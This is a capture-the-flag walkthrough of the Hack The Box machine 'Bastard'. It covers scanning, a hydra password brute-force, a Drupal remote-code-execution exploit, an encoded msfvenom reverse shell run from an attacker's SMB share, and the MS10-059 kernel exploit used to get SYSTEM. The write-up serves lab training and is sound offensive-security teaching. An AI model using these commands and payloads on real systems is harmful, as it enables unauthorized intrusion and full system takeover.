



# [Bastard](https://app.hackthebox.eu/machines/7)

Start off with `nmap`:

```bash
sudo nmap -sS -sC -p1-65535      --open -Pn 10.10.10.9 # deep scan 
sudo nmap -sS -sC --top-ports=20 --open -Pn 10.10.10.9 # quick scan
```

The quick scan returns the following results:



Start the following website scans in the background:

```bash
dirb http://10.10.10.9 -r
nikto -h http://10.10.10.9 --maxtime=30s
```

Manually browsing to the website shows the following:


Trying to create a new `admin` user results in the following error message:


Knowing that, it is possible to try a bruteforce login. Looking at the HTML source for the login form makes the following `hydra` command:


```bash
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
hydra -vV -f -I\
  -l admin \
  -P ./rockyou.txt \
  10.10.10.9 \
  http-post-form \
  "/user:name=^USER^&pass=^PASS^&form_build_id=form-u-hJquQU3XK9ojjz_PHQUZBmL7qzIAA65bMHASkwt_I&form_id=user_login:unrecognized"
```

However, after running `hydra`, it returns quickly saying it found a login. Trying this password gives a new error:


So no luck here... Looking at the output from `nikto` shows an interesting header:


With a version tied to a service, looking for an exploit is now feasible: 


There are a few interesting ones here and 44449 looks like it has plenty of version coverage. Running that Ruby script generates an error that can be fixed by installing another Ruby package `highline`:

```bash
searchsploit -m 44449
sudo gem install highline
ruby 44449.rb http://10.10.10.9
```

The script asks for a target URL, and running it provides a basic remote command execution shell!


The exploit provides the ability to upload and execute a dedicated shell with the following:

```bash
# make payload
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.23 \
         LPORT=6969 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f exe > bubba.exe
# host payload over SMB
sudo impacket-smbserver BUBBA ./
# start listener
nc -nvlp 6969
# execute in-memory through ruby exploit shell
start /B \\10.10.14.23\BUBBA\bubba.exe
```

And that provides the dedicated shell:


Looking for interesting user files gets us `user.txt`:

```bash
dir "C:\Users\" /a /b /s 2>nul | findstr /v /i "Favorites\\" | findstr /v /i "AppData\\" | findstr /v /i "Microsoft\\" |  findstr /v /i "Application Data\\"
```



During enumeration and loking at the `systeminfo` output, there seem to be no patches/hotfixes installed. There may be a kernel exploit to use?

```bash
systeminfo
wmic qfe get Caption,Description,HotFixID,InstalledOn
```



Using `wesng` (https://github.com/bitsadmin/wesng) it only shows 3 possible exploits for privilege escalation:

```bash
git clone https://github.com/bitsadmin/wesng.git
python wesng/wes.py --update
# save target systeminfo output to systeminfo.txt
python wesng/wes.py ./sysinfo.txt -o ./vulns.csv -e
sort -t ',' -k 1 vulns.csv | awk -F '","' '{print $1" | "$2}'
```


However, of the 3, only https://www.exploit-db.com/exploits/15609 seems possible but the exploit description does not list the target's kernel in the supported list from the `syteminfo` output (`6.1.7600 N/A Build 7600`) so this exploit is likely to not work. Moving on...

```bash
Windows Vista/2008 6.1.6000 x32,
Windows Vista/2008 6.1.6001 x32,
Windows 7 6.2.7600 x32,
Windows 7/2008 R2 6.2.7600 x64. # not 6.1.7600 Build 7600 ...
```

However, since this OS is old it is likely that this tool is missing some possible exploits. In the `README.md` for https://github.com/bitsadmin/wesng it says the following:

> I developed WES-NG because while [GDSSecurity's Windows-Exploit-Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester/) worked excellently for operating systems in the Windows XP and Windows Vista era, GDSSecurity's Windows-Exploit-Suggester does not work for  operating systems like Windows 10 and vulnerabilities published in  recent years. This is because Microsoft replaced the Microsoft Security  Bulletin Data Excel file [1] on which GDSSecurity's  Windows-Exploit-Suggester is fully dependent, by the MSRC API [2]. The  Microsoft Security Bulletin Data Excel file has not been updated since  Q1 2017, so later operating systems and vulnerabilities cannot be  detected. Thanks [@gdssecurity](https://twitter.com/gdssecurity), for this great tool which has served many of us for so many years!

So just to be sure, check this against the older tool:

```bash
# download and install
git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git
curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
python2.7 get-pip.py
python2.7 -m pip install xlrd
cd Windows-Exploit-Suggester/
# download old DB version
python2.7 windows-exploit-suggester.py --update
# run the tool
python2.7 windows-exploit-suggester.py --database 2020-09-09-mssb.xls --systeminfo ../sysinfo.txt
```

The tool returns the following output:


There are a few exploits listed that have PoC code here https://github.com/SecWiki/windows-kernel-exploits/. Specifically MS10-059 looks promising. Try downloading and executing it:

```bash
# download
axel -n 20 -a https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-059/MS10-059.exe
# execute on target in-memory from kali SMB share
\\10.10.14.23\BUBBA\MS10-059.exe
```

The following usage statement is printed:


So setting up a new listener and running the following command on the target gives a SYSTEM shell!

```bash
\\10.10.14.23\BUBBA\MS10-059.exe 10.10.14.23 7777
```


